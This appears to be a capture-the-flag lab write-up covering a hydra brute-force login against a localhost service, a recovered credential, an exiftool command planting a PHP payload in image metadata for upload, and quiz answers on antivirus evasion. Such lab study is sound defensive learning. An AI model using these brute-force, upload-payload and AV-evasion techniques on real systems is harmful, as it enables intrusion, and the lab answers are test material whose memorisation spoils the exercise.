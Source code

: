 Save those usernames and passwords to files and run:

```bash
$ hydra -L usernames.txt -P passwords.txt localhost -s 10003 http-get /resources -V -I
```

Credentials:

> Thomas:i<3ruby 

The file will be under http://localhost:10003/resources/uploads/$THE-EXACT-FILE-NAME

I took a file called leaves.jpg and inserted a malicious payload in the metadata 
Comment:

```bash
$ exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" leaves.jpg.php
```

---

### ***AV Evasion** Introduction*

- Which category of evasion covers uploading a file to the storage on the target before executing it?

> on-disk evasion

- What does AMSI stand for?

> antimalware scan interface

- Which category of evasion does AMSI affect?

> in-memory evasion

---

### ***AV Evasion** AV Detection Methods*

- What other name can be used for Dynamic/Heuristic detection methods?

> behavioural

- If AV software splits a program into small chunks and hashes them, checking the results against a database, is this a static or dynamic analysis method?

> static

- When dynamically analysing a suspicious file using a line-by-line analysis of the program, what would antivirus software check against to see if the behaviour is malicious?

> pre-defined rules 

- What could be added to a file to ensure that only a user can open it (preventing AV from executing the payload)?

> password

---

### ***AV Evasion** PHP Payload Obfuscation*
